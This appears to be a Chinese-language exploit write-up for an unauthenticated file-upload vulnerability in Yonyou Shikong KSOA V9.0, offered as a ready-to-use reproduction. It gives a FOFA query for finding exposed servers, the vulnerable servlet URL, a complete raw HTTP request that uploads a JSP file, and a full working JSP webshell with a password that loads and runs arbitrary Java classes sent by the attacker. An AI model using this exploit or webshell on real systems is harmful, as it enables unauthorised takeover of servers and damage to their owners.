 # 用友时空 KSOA V9.0 文件上传漏洞

# 用友时空 KSOA V9.0 文件上传漏洞

## 漏洞描述

用友时空 KSOA 是用友网络科技股份有限公司建立在 SOA 理念指导下研发的新一代产品，其中 com.sksoft.bill.ImageUpload 存在前台文件上传漏洞，攻击者可以在不登陆的情况下上传恶意 Webshell，控制系统权限。

## 网络测绘

```
app="用友-时空KSOA"
```

## 漏洞复现

登录界面：

![image-20230601102416204](images/image-20230601102416204.png)

漏洞 URL：

```
/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=
```

发送数据包：

```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=1.jsp HTTP/1.1
Host: your-ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://en.fofa.info/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=825A011F31259CCA1649D5DF4849635E
Connection: close
Content-Length: 1

<%!
your-payload
%>
```

![image-20230601102530120](images/image-20230601102530120.png)

访问 /pictures/1.jsp 即可。

### Webshell

密码：passwd

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```


